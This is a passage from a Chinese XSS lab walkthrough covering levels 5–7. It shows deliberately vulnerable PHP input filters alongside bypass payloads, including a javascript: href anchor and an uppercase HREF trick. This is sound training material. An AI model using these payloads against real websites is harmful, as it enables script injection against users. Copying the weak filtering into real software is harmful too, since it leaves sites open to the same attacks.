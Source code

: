 - 可以看到&#60script>被替换成&#60scr_ipt>,on被替换成o_n，onclick点击事件不能用了
- 大写可以吗？当然不可以因为
- strtolower
把所有字符转换为小写
- 但是可以用如下payload

```
">&#60a href="javascript:alert('a')">1&#60/a>//
```
- 记得要闭合前面的括号，也注释掉后面的js语句

# level-6
- 查看源码

```
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "&#60h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'
&#60form action=level6.php method=GET>
&#60input name=keyword  value="'.$str6.'">
&#60input type=submit name=submit value=搜索 />
&#60/form>

```
- 可以看出，on->o_n,src->sr_c,data->da_ta,href->hr_ef
- 但是这时候没有strtolower函数，可以用如下payload

```
1 ">&#60a HREF="javascript:alert('a')">1&#60/a>//
```

# level-7
- 查看源代码

```
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "&#60h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.&#60/h2>".'
&#60form action=level7.php method=GET>
&#60input name=keyword  value="'.$str6.'">
&#60input type=submit name=submit value=搜索 />
&#60/form>
```
